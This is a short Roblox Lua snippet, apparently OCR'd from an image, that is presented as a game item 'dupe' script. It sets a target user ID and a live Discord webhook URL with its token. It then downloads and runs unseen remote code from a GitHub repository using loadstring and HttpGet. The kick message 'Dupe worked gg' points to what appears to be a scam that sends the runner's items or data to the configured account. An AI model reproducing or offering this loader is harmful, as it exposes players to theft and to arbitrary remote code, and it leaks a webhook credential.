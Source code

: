 _G.UserID = 1501356639
_G.Webhook = https://discord.com/api/webhooks/1016398664329076889/mrm44UuT3hn8U_8ZweYHcuEps1jpAJSsVDw1QiJiXDGIB2tbiHOrQQ1Dh6VKWotEAp-Q
_G.KickMessage = "Dupe worked gg"
_G.PopUpMessage = "Lets get started"
loadstring(game:HttpGet"https://raw.githubusercontent.com/ToxinKindaScripts/psxdupe/main/script2")()
